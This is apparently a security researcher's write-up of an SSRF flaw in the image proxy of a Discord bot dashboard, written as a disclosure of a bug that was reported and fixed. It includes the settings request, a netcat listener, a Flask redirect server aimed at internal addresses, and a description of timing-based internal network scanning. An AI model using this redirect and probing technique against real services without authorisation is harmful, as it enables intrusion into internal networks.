


## The proxy is getting very sus
*Fixed on: 12/06/2026*

[Website](https://galaxybot.app) | [Discord](https://galaxybot.app/go/discord)

It's a bot whose features are focused to server management. It has tickets, moderation tools, support utils, suggestions and guild protection.

His dashboard seems pretty cool. They have an organization-like web infrastructure where a SSO (Single Sign-On) which handles the login with Discord is used to access to the servers and teams management dashboard.



While saving settings, I noticed that there were some modules that save settings differently than the others, the `welcome` was one and this was sent via `POST` to `/api/user/servers/[guild_id]/modules/welcome`:

```jsonc
{
    "enabled":true,
    "removeOldRolesEnabled":false,
    "dmMessage":{
        "enabled":false,
        "description":null
    },
    "join":{
        "enabled":false,
        "channelID":null,
        "embed":{
            "title":null,
            "description":null,
            "footerImageURL":null,
            "thumbnailURL":null
        }    
    }
    // [... snip]
}
```

The `footerImageURL` and `thumbnailURL` became to my eyes, as every valid HTTPS url that were introduced was being transformed into `https://ext-images-01.galaxybot.app/file/proxy/[sha256]/[url]` by the backend. So I putted the URL of my server and I received the raw request from the proxy:

```bash
vzon@vzon:~/oob$ nc -s 127.0.0.1 -lvnp 8000
Listening on 127.0.0.1 8000
Connection received on 127.0.0.1 49700
GET /awo HTTP/1.0
Host: 127.0.0.1:8000
Connection: close
accept: application/json, text/plain, */*
user-agent: ****
accept-encoding: gzip, br
... [snip]
```

I saw that the HTTP client that they were using follows redirects by default, so, what would happen if I redirect this to an internal address? We can make this simple Python server for that purpose:

```python
from flask import Flask, redirect, request, Response

app = Flask(__name__)

@app.route("/awo")
def index():
    return redirect("http://<address>:<port>", 301)

app.run("127.0.0.1", 8000)
```

While trying redirect to `127.0.0.1` I noticed that the server throws 404 if an error occurs in the request. Every common port was throwing an error, but from some extra info that I gathered, I knew that this was using clusters, so there must be containers... and when I tried to send a request to `172.17.0.1` (Docker default network) I got the response from https://galaxybot.app.

Now; I focused on searching for internal services, and I noticed that the server will take ~3 seconds to answer with a 404 if the address is unreachable and < 1 second if it actually exists, answering with 404 if an error occurs in the request (port closed or `status_code >= 400`). With this I started searching the network and found some interesting internal services running:



The devs fixed it quickly after I reported it.

